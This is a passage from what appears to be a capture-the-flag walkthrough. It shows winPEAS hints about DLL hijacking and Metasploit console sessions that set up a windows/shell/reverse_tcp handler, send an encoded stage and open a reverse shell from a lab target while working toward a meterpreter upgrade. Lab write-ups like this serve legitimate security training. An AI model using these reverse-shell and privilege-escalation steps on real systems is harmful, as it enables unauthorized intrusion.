 ```
   [i] Maybe you can take advantage of modifying/creating some binary in some of the following locations                                                              
   [i] PATH variable entries permissions - place binary or DLL to execute instead of legitimate                                                                       
   [?] https://book.hacktricks.xyz/windows/windows-local-privilege-escalation#dll-hijacking                                                                           
C:\Windows\system32 NT SERVICE\TrustedInstaller:(F)                                                                                                                   
...
```
We don't find anything interesting we can use, or know how to use unfortunately.

## 7. Fixing Errors and Getting Meterpreter for Privilege Escalation!
After some digging around, we found out it probably didn't work because of our shell type, indicated as `shell sparc/bsd` under sessions.
```
msf6 > sessions -l

Active sessions
===============

  Id  Name  Type             Information     Connection
  --  ----  ----             -----------     ----------
  1         shell sparc/bsd  Spawn Shell...  10.10.x.x:4545 -> 10.129.135.184:49158 (10.129.135.184)
```
This was a big newbie error.

The reason why `msf5 > use post/multi/manage/shell_to_meterpreter` failed previously was because default payload `generic/shell_reverse_tcp` for `exploit/multi/handler` was used instead of `windows/shell/reverse_tcp`.

Let's fix this by setting the correct payload in the multi handler and run our original payload `shell.aspx`.
```
msf6 > use exploit/multi/handler
[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > set payload windows/shell/reverse_tcp
payload => windows/shell/reverse_tcp
msf6 exploit(multi/handler) > show options
...
msf6 exploit(multi/handler) > run

[*] Started reverse TCP handler on 10.10.x.x:4545 
[*] Encoded stage with x86/shikata_ga_nai
[*] Sending encoded stage (267 bytes) to 10.129.135.184
[*] Command shell session 2 opened (10.10.x.x:4545 -> 10.129.135.184:49159) at 2021-04-25 22:20:15 +0800
...
c:\windows\system32\inetsrv>
```
We get a proper session type this time that shows `shell x86/windows` instead of `shell sparc/bsd`.
```
msf6 exploit(multi/handler) > sessions -l

Active sessions
===============

  Id  Name  Type               Information                                                                       Connection
  --  ----  ----               -----------                                                                       ----------
```